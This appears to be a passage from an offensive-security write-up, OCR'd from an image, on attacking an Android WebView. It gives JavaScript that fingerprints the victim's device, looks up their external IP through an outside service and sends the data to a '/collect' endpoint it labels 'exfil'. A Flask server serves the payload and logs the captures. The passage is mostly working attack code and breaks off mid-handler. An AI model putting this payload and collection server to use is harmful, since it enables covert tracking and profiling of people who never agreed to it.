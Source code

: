 ```HTML
  // basic fingerprint from WebView
  const n = navigator;
  const info = {
    ua: n.userAgent,
    lang: n.language,
    platform: n.platform,
    mem: n.deviceMemory || null,
    cores: n.hardwareConcurrency || null,
    screen: { w: screen.width, h: screen.height, p: devicePixelRatio },
    ts: Date.now()
  };

  // get the external IP
  let ip_ext = "unknown";
  try {
    const r = await fetch("https://api.ipify.org?format=json", { cache: "no-store" });
    ip_ext = (await r.json()).ip || "unknown";
  } catch (_) {}

  // exfil
  await fetch("/collect", {
    method: "POST",
    headers: {"Content-Type":"application/json"},
    body: JSON.stringify({ ip_ext, info, apps: [] })
  });

  // optional, a landing that we can config in the flask server
  location.replace("/ok");
})();
</script>
```
### Crafting the Flask server
We can craft a *simple Flask server* like:
```python
from flask import Flask, request, send_from_directory, jsonify
from datetime import datetime
import os, json

APP_DIR = os.path.dirname(os.path.abspath(__file__))
# save the content in a log file
LOG = os.path.join(APP_DIR, "captures.log")

app = Flask(__name__)

@app.get("/")
def root():
    # redirect to payload.html
    return send_from_directory(APP_DIR, "payload.html")

@app.get("/ok")
def ok():
    # our landing page, just an OK
    return "<h1>OK</h1>"

# will collect all the data and applications using the package name enumerator
@app.post("/collect")
def collect():
    try:
        data = request.get_json(force=True, silent=True) or {}
    except Exception:
        data = {"_raw": request.data.decode("utf-8", "ignore")}

```